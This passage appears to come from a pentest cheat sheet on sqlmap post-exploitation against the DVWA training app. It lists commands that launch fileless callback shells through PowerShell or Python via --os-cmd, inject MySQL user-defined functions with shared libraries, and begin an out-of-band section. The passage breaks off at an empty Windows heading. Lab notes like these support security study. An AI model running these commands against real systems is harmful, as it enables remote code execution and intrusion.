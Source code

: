- Execute the callback shell in memory (fileless memory) via powershell

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="powershell -e <base64_encoded>"
```

- Execute the callback shell in memory (fileless memory) via python

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="python -c <payload>"
```

## 5.2 - User Defined Function

TODO: Test UDF for MySQL and check what conditions does it requires.

### 5.2.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges with the flags `--privileges -U CU`.

### 5.2.2 - General

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --udf-inject
```

### 5.2.3 - Linux

TODO: Compile the shared object linux file execute a callback shell when uploading it to the MySQL DBMS

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --udf-inject --shared-lib=/path/to/file.so
```

### 5.2.4 - Windows

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --udf-inject --shared-lib=/path/to/file.dll
```


--cleanup           Clean up the DBMS from sqlmap specific UDF and tables


## 5.3 - Out-of-Band

### 5.3.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges with the flags `--privileges -U CU`.

### 5.3.2 - Windows
